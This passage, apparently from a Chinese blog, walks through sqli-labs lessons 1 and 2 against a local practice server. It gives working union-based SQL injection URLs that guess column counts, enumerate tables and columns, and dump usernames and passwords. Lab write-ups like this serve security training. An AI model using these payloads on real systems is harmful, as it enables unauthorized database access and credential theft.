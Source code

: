 `http://172.16.60.103/sql-labs/Less-1/?id=-1' union select 1,2,group_concat(char(32),username,char(32)) from users limit 0,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_30.png" />

这个时候就可以列出所有的账号了。。。

**sql-labs_less-2**   基于错误的GET整型注入

这个和第一个基本上都是一样的，唯一的区别就是$id 没有加单引号

那就和1是一样的，将-1后面的单引号去掉就好了，完整做一遍：

order by 猜字段：到4 的时候报错，1，2，3都是正常的

`http://172.16.60.103/sql-labs/Less-2/?id=-1 order by 4%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_01.png" />

然后和第一个一样：`http://127.0.0.1/Less-2/?id=-1 union select 1,2,concat_ws(char(32,58,32),version(),user(),database())%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_02.png" />

这个时候就知道了 数据库用户root@localhost  ；数据库名字 security ；数据库版本5.5.53

再次使用：  `http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,table_name%20from%20information_schema.tables%20where%20table_schema%20=%20%27security%27%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_03.png" />

一直使用limit，直到出现：users（出现是在limit 3,1%23）

`http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,column_name%20from%20information_schema.columns%20where%20table_schema%20=%20%27security%27%20and%20table_name%20=%20%27users%27%20limit%201,2%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_04.png" />

查询账号和密码：

`http://127.0.0.1/Less-2/?id=-1 union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23`

或者是使用group_concat()： `http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,group_concat(char(32),username,char(32))%20from%20users%20limit%200,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_05.png" />

然后使用函数也可以获得password：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_06.png" />

结合两个函数使用的话，直接对应账号和密码：

`http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,group_concat(char(32),password,char(32),username,char(32))%20from%20users%20limit%200,1%23`
